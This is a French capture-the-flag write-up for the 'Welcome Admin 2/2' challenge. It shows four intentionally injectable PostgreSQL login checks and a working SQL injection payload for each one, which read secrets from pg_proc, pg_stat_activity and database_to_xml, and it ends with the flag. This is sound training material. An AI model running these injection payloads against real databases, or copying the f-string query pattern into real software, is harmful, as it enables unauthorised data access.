 # Welcome Admin 2/2

<img alt="énoncé du challenge" src="enonce.png" width=300>

Les fichiers fournis :
- [welcome-admin.tar.xz](welcome-admin.tar.xz)

----

Il s'agit de la suite de [Welcome Admin 1/2](../../intro/welcome-admin-1_2/welcome-admin-1_2.md). Dans cette deuxième étape, on va donc essayer d'obtenir le flag `SECOND_FLAG`.

En plus du challenge déjà résolu lors de la première étape, on voit qu'il va falloir en résoudre 4 supplémentaires avant d'arriver sur `/flag`.

On note au passage, d'après le fichier `docker-compose.yml`, que c'est la dernière version disponible de PostgreSQL qui est utilisée comme base de données.

----

### 1. Level ADMIN

Le premier challenge est celui-ci :

```py
@app.route("/admin", methods=["GET", "POST"])
@login_for(Rank.ADMIN, Rank.SUPER_ADMIN, "/super-admin", FIRST_FLAG)
def level2(cursor: cursor, password: str):
    token = os.urandom(16).hex()
    cursor.execute(
        f"""
            CREATE FUNCTION check_password(_password text) RETURNS text
            AS $$
                BEGIN
                    IF _password = '{token}' THEN
                        RETURN _password;
                    END IF;
                    RETURN 'nope';
                END;
            $$ 
            IMMUTABLE LANGUAGE plpgsql;
        """
    )
    cursor.execute(f"SELECT  check_password('{password}')")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 1:
        return False
    return row[0] == token
```

Pour le résoudre, il faut réussir à récupérer le `token` qui est généré aléatoirement, puis utilisé dans la définition de la fonction `check_password`.

Or les informations sur les fonctions sont stockées dans [pg_proc](https://docs.postgresql.fr/current/catalog-pg-proc.html). On peut donc s'en servir pour extraire la définition de la fonction et donc le `token`

Voici le password utilisé permettant de valider le niveau et d'être redirigé vers `/super-admin`: 

```txt
' || ( select substring(prosrc,60,32) from pg_proc where proname= 'check_password')) --
```

----

### 2. Level SUPER_ADMIN

Voici le code du challenge suivant :

```py
@app.route("/super-admin", methods=["GET", "POST"])
@login_for(Rank.SUPER_ADMIN, Rank.HYPER_ADMIN, "/hyper-admin")
def level3(cursor: cursor, password: str):
    token = os.urandom(16).hex()
    cursor.execute(f"SELECT '{token}', '{password}';")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 2:
        return False
    return row[1] == token
```

Comme précédemment, il faut réussir à récupérer le `token` (généré aléatoirement).

Pour cela on va se servir de la vue [pg_stat_activity](https://docs.postgresql.fr/current/monitoring-stats.html#MONITORING-PG-STAT-ACTIVITY-VIEW) pour récupérer le code SQL de la requête elle-même et donc le `token`.

Voici le password utilisé permettant de valider le niveau et d'être redirigé vers `/hyper-admin` :

```txt
___' union select SUBSTR((select query FROM pg_stat_activity where query like 'SELECT ''%' order by 1 ASC  limit 1), 9, 32), SUBSTR((select query FROM pg_stat_activity where query like 'SELECT ''%' order by 1 ASC  limit 1), 9, 32) order by 2 DESC limit 1 --
```

----

### 3. Level HYPER_ADMIN

Voici le code correspondant à ce niveau :

```py
@app.route("/hyper-admin", methods=["GET", "POST"])
@login_for(Rank.HYPER_ADMIN, Rank.TURBO_ADMIN, "/turbo-admin")
def level4(cursor: cursor, password: str):
    cursor.execute(f"""SELECT md5(random()::text), '{password}';""")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 2:
        return False
    return row[0] == row[1]
```

Ici, l'objectif est un peu différent des précédents : il faut que les 2 colonnes ramenées par le `SELECT` soient identiques (i.e. `row[0] == row[1]`).

Sachant que seule la 1ère ligne est récupérée (cf. `row = cursor.fetchone()`), il suffit de combiner au résultat de la requête, un autre résultat (au moyen d'un `UNION`) qui satisfasse la condition à vérifier. Puis d'ordonner la liste ainsi obtenue (via un `ORDER BY`), qui comprend donc 2 lignes, pour que la ligne "sous contrôle" arrive en premier.

Voici le password utilisé permettant de valider le niveau et d'être redirigé vers `/turbo-admin` :

```txt
___' union select '1', '1' order by 2 DESC limit 1 --
```

----

### 4. Level TURBO_ADMIN

Voici le code correspondant à ce niveau :

```py
@app.route("/turbo-admin", methods=["GET", "POST"])
@login_for(Rank.TURBO_ADMIN, Rank.FLAG, "/flag")
def level5(cursor: cursor, password: str):
    table_name = "table_" + os.urandom(16).hex()
    col_name = "col_" + os.urandom(16).hex()
    token = os.urandom(16).hex()

    cursor.execute(
        f"""
        CREATE TABLE "{table_name}" (
          id serial PRIMARY KEY,
          "{col_name}" text
        );

        INSERT INTO "{table_name}"("{col_name}") VALUES ('{token}');
        """
    )
    cursor.execute(f"SELECT '{password}';")
    row = cursor.fetchone()
    print(row)
    if not row:
        return False
    if len(row) != 1:
        return False
    return row[0] == token
```

Ici il faut réussir à récupérer le `token` (toujours généré aléatoirement) qui est inséré dans une table. Le nom de la table et de la colonne utilisés sont suffixés par une partie générée aléatoirement.

Grâce à la fonction [database_to_xml](https://pgpedia.info/d/database_to_xml.html) il est possible de faire un dump du contenu de la base au format XML. Il reste alors à localiser dans ce dump la partie contenant la valeur de `token`

Voici le password utilisé permettant de valider le niveau et d'être redirigé vers `/flag` :

```txt
' || substr(database_to_xml(true, true,' ')::text, 178, 32) --
```

Après cette ultime redirection, le contenu de la page https://welcome-admin.france-cybersecurity-challenge.fr/flag est alors le suivant :

```txt
Congratulations! The flag is: FCSC{a380e590ae8ffe8da9bb86f27d05203b7f9d32dd37c833c2764097840848b3a2}
```
